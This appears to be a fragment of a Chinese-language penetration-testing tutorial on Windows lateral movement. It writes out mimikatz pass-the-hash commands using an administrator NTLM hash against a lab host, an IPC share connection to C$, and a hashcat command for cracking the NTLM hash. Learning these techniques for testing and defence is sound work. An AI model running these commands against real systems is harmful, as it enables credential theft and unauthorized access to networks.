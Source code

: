 ```
1.mimikatz
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:administrator /domain:192.168.3.32 /ntlm:518b98ad4178a53695dc997aa02d455c #向计算机中写入内存，在当前电脑的内存中写入 连接3.32时采用administrator和后面的hash来连接
net use \\192.168.3.32\c$ #连接成功后就可以进行后续的IPC横向移动操作了
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7oBUib37MPs2YicZBJtwhYpRVIm0NShnr5negCFqgbEGOedJtZA1zUcpw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7cO9iaq13tEXLLDSks9hL8EK3Poby88nK8z429gem9c4kNIoyOI4r5eQ/640?wx_fmt=png&from=appmsg "")  
  
  
这里执行成功后执行dir是不可以的  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7LjrdiayvHPbv52XnjX4bxjdxLvYaR1obaTadqWtQp4u6aQ168echf6w/640?wx_fmt=png&from=appmsg "")  
  
  
然而，mimikatz sekurlsa::pth /user:administrator /domain:192.168.3.32 /ntlm:518b98ad4178a53695dc997aa02d455c该命令执行成功后，web主机会弹出一个cmd，要在这边dir才行阿巴阿巴。这种方法就不太现实了，因为需要图形化界面。。。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7QiaQaxl7nhN4MEU1b0edrBURdZrKNPqWU6jv675T1ibNLSiaTiaYzALb6A/640?wx_fmt=png&from=appmsg "")  
  
  
2.impacket套件  
  
  
2.利用hash转成ptt传递  
  
  
见ptt处利用NTLM  
  
  
3.利用hash进行暴力破解明文  
  
  
**hashcat**  
 利用枚举碰撞来破解  
  
  
https://hashcat.net/hashcat/  
  
```
hashcat -a 0 -m 1000 --force 518b98ad4178a53695dc997aa02d455c pass.txt
-m 1000代表NTLM类型
```  
  
-m 密文类型  
  
  
-a 破解类型  
  
  
?l 小写  
  
  
?s 符号  
  
  
?d 数字  
  
  